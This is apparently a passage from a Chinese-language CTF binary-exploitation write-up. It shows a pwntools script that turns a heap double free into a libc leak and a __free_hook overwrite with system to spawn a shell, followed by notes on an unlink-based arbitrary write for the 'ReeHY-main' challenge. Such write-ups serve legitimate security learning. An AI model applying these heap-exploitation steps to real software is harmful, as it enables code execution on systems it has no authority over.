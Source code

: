 ```python
delete(2)
delete(1)

add(0x20,p64(message_addr-0x8)) # 3
add(0x20,'/bin/sh') # 4 后面劫持free，这里预留/sh的字符串
add(0x20,'eeee') # 5
add(0x20,p64(elf.got['puts'])) # 6


'''
leak libc
这里LibcSearcher出现了问题，由于是本地测试，直接用了本地libc
'''
show(0)
puts_addr = io.recv(6).ljust(8,'\x00')
puts_addr = u64(puts_addr)
obj = LibcSearcher('puts',puts_addr)#wrong with LibcSearcher in local
base_addr = puts_addr - libc.symbols['puts']#obj.dump('puts')
sys_addr = base_addr + libc.symbols['system']#obj.dump('system')
free_addr = base_addr + libc.symbols['__free_hook']#obj.dump('__free_hook')

'''
由于double free破坏了0x30 fastbin的结构，再add(0x20)会有问题，这里使用add(0x10)或者直接在4号写入
'''
#add(0x10,'/bin/sh\x00') # 7 0x30 fastbin cant be used beacause of double free,try 0x20
edit(6,p64(free_addr))
edit(0,p64(sys_addr))
delete(4)

io.interactive()
```

# 4-ReeHY-main(double free + unlink)

[# 4-ReeHY-main](/assets/binary/%E5%88%B7%E9%A2%982/4-ReeHY-main)

```c
sturct{
	int_32 nbytes;
	int_64 heap_ptr;
	int_64 isUsed;
}
int_32 size[5];
int_64 a[10];
a[0],a[2],a[4],a[6],a[8] -> heap_ptr;
a[1],a[3],a[5],a[7],a[9] -> isUsed;
```

存在double free漏洞，通过unlink修改a[4]指向自身附近，从而劫持所有a数组，指向任意地址，实现任意地址写

伪造的chunk如下图所示，绕过unlink检查需要FD->bk == P&&BK->fd == P，让FD->bk和BK->fd都是存放heap的地方
